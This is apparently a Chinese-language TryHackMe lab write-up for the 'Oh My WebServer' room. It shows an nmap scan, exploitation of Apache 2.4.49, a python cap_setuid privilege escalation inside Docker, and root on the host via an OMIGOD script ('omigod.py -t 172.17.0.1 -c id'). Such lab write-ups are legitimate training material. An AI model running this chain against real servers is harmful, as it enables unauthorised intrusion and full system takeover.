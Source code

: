 ```yaml
---
sidebar_position: 100
tags: [Easy, Linux, docker]
title: "Oh My WebServer"
description: "Oh My WebServer"
sidebar_label: "Oh My WebServer"
slug: /tryhackme/100
---
```


# Oh My WebServer

## 端口扫描

```bash
root@ip-10-10-38-183:~/ohmyweb# nmap -sTCV -p  22,80 --min-rate 1000 10.10.73.139

Starting Nmap 7.60 ( <https://nmap.org> ) at 2023-09-18 09:32 BST
Nmap scan report for ip-10-10-73-139.eu-west-1.compute.internal (10.10.73.139)
Host is up (0.00017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Consult - Business Consultancy Agency Template | Home
MAC Address: 02:70:B0:96:1E:0D (M/a-com Companies)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 8.04 seconds
```

## 后渗透

### daemon

查看 80 的版本, 我知道着估计是个 CVE 漏洞了, 我就直接使用了 CVE 漏洞开始攻击

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-124348.png)

### daemon —> root (docker)

利用上面得到的 Shell 获取一个反向 Shell  来进行巩固, 同时查看环境我知道这是一个 docker 容器, 所以我开始尝试提权或者越狱, 我发现在容器中有一个 capabilities 程序

```bash
Files with capabilities (limited to 50):
/usr/bin/python3.7 = cap_setuid+ep
```

我们可以利用此来获取到一个 docker 内的 root 权限 [python#capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)

### root (docker) —> root

根据一般规则, 我们的主机应该是 172.17.0.1, 所以我开始了内网的扫描

```bash
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
5985/tcp closed unknown
5986/tcp open   unknown
```

- 80 端口估计是我们的容器映射出去的
- 5986 经过查找是一个 OMI 程序, 而且只有一种利用方式, 所以我们直接上传对应的脚本进行利用即可

```bash
(remote) root@4a70924bafa0:/# python3 omigod.py -t 172.17.0.1 -c id
uid=0(root) gid=0(root) groups=0(root)
```